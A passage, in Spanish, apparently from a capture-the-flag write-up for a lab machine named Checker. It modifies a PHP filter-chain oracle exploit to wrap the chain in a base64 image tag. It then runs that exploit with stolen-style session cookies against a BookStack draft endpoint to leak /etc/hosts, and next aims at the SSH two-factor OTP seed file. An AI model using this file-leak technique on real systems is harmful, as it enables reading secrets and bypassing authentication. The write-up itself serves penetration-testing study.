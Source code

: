 Tendremos que editar el archivo `core/requestor.py` para indicarle que nos ponga la cadena resultante en el formato que mencionamos arriba, especifcamente tendremos que editar el método `req_with_response` agregándole esto:

```python
... [snip]
filter_chain = f'php://filter/{s}{self.in_chain}/resource={self.file_to_leak}'

encoded_chain = base64.b64encode(bytes(filter_chain, 'utf-8'))
new_chain = f"<img src='data:image/png;base64,{encoded_chain.decode()}'>"
 
# DEBUG print(filter_chain)
merged_data = self.parse_parameter(new_chain)
... [snip]
```

Ahora, podemos probar esto contra el sitio y veremos que funciona sin problemas (diciendonos al mismo tiempo, que el sitio efectivamente es vulnerable), mostrándonos una porción del archivo `/etc/hosts`:

```bash
❯ python filters_chain_oracle_exploit.py --target http://checker.htb/ajax/page/10/save-draft --json=1 --data '{"name":"New Pageasdasd"}' --verb PUT --parameter html --headers '{"Cookie":"XSRF-TOKEN=eyJpdiI6IkJ4UHhpV2lWaXZVMHkzWGhkOHdGbnc9PSIsInZhbHVlIjoiWnpqb1dud0hZN3Q4VkFzRGk0MHJPSnMxTEF6eEtHT1NJTGZRb093YXdENDlKUmU0M0trbnF0NlhFc1JESEpSQ2hYY0NNaDRHUEYvcC8wUGJQbzFUb0xVaTlyMjAxNGViZ1QwbTFab3FuME56anc1c2dMUm5ORmdKOExSZTdTeE4iLCJtYWMiOiJhZmYyNjg1ZGExMzg2NTE4M2I2NTAyOGNkMTMyNmQyZDI0NmM2MDIyNjk0NTM1YTIyY2M2YWZjODdhYmM0ZjlkIiwidGFnIjoiIn0%3D; bookstack_session=eyJpdiI6IkVUaVZza25DbGZmdXMyWG9WcHEvdnc9PSIsInZhbHVlIjoieUF1T1lUWVN1bmd5YTU3cGRNQldqb0RlZU14bzhIVnM3alJVcjlxRHZSdE5UNTBHSFg0M3I5YnprdnIzRWVUTlh5MlJXaG1jRGdQOTg3ZnYyRy9GS0pMZzRDbWp4d0RWdktFdUR2ZjVxR2Z3YjBkQjdCdjBnTldBYytuZXJGSmMiLCJtYWMiOiIyMjJmMTkyMGZiYzNmYTVkZmU1ZWQxODUzZTk4YWJjMjcxMGY2ZTZiYTU0NTNhYTRjODY1N2Y2ZTViZDRiYjhmIiwidGFnIjoiIn0%3D;","X-CSRF-TOKEN":"hphGIzZw8Lwmg7LRSRqtYeN6jg8XRWkir1iuR106"}' --file /etc/hosts
[*] The following URL is targeted : http://checker.htb/ajax/page/10/save-draft
[*] The following local file is leaked : /etc/hosts
[*] Running PUT requests
[*] Additionnal data used : {"name":"New Pageasdasd"}
... [snip]
  [*] File leak gracefully stopped.
[+] File /etc/hosts was partially leaked
MTI3LjAuMC4xIGxvY2FsaG9zd
b'127.0.0.1 localhost'
```

Nos seria muy conveniente filtrar algo útil y corto... como puede ser el archivo donde se guarda la semilla OTP del mecanismo 2FA de SSH.

Si vemos el contenido de los posts que vimos al principio cuando apenas entramos al sitio, veremos que en el post titulado `Basic Backup with cp` hay algo muy curioso:
